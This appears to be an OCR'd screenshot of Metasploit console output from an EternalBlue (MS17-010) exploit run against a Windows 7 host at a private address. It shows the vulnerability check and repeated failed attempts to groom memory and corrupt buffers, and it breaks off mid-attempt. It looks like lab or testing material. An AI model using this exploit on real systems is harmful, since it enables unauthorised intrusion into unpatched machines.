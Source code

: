 [*] 192.168.23.12:445 - Executing automatic check (disable AutoCheck to override)
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.23.12:445 - The target is vulnerable.
[*] 192.168.23.12:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.23.12:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 192.168.23.12:445     - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 17 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet
[*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 192.168.23.12:445 - Connecting to target for exploitation.
[+] 192.168.23.12:445 - Connection established for exploitation.
[+] 192.168.23.12:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.23.12:445 - CORE raw buffer dump (25 bytes)
[*] 192.168.23.12:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 192.168.23.12:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 192.168.23.12:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.23.12:445 - Trying exploit with 22 Groom Allocations.
[*] 192.168.23.12:445 - Sending all but last fragment of exploit packet